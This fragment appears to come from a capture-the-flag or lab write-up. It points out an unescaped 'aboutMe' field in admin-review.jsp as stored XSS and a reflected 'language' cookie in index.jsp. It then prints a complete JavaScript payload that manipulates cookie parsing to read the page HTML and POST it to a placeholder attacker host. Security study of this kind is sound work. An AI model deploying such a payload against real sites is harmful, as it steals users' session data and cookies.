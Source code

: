 --- SNIP ---
```

- admin/admin-review.jsp

```
<div class="about-content"><%= (aboutMe != null && !aboutMe.isEmpty()) ? aboutMe : "No about me section provided." %></div>
```


So admin-review.jsp is vulnerable to XSS and index.jsp reflects the `language` cookie .

```
<script>
document.cookie = `$Version=1; path=/index.jsp;`;
document.cookie = `language="start; path=/index.jsp;`;
document.cookie = `end="; path=/`;
fetch("/index.jsp").then(function (res){return res.text();}).then(
function (html) {
    console.log("Sending exfil");
    fetch("http://<attacker_lhost>:<attacker_lport>/exfil",
    {
        method: "POST",
        body: html.substring(0,135)
    });
});
</script>
```